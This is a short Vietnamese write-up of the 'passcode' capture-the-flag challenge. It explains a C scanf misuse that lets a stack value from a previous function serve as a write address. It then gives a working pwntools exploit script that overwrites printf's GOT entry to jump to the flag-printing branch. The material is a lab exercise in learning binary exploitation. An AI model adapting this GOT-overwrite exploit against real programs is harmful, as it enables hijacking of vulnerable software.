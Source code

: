 # passcode

## Phân tích

- Một bài có lỗi hay mắc phải khi code C

```
        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);
```

- `scanf()` nhập vào địa chỉ truyền vào, tuy nhiên khi `scanf("%d", passcode1)` là sẽ lấy giá trị của passcode làm địa chỉ, và passcode nằm trong stack khi ta nhập tên ở hàm `welcome`
- Vậy ta có thể ow giá trị ở passcode1 sau đó sửa giá trị mà giá trị passcode trỏ đến => GOT

## Khai thác

- Ở đây mình chọn hàm printf làm mục tiêu để ow, ta sẽ ow printf@got nhảy vào bên trong hàm if để `cat flag`
- Để chạy được ta phải chạy trên ssh ở ./tmp và ssh dùng python2 nên ta có thể code lại bằng python 2 (hoặc nhờ chatGPT chuyển hộ =)))

```
#!/usr/bin/python3

from pwn import *

exe = ELF('passcode', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x08049358

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()
payload = b"A" * 96
sla(b"beta.\n", payload + p32(0x804c010))
sl(str(0x0804926e))
p.interactive()
```
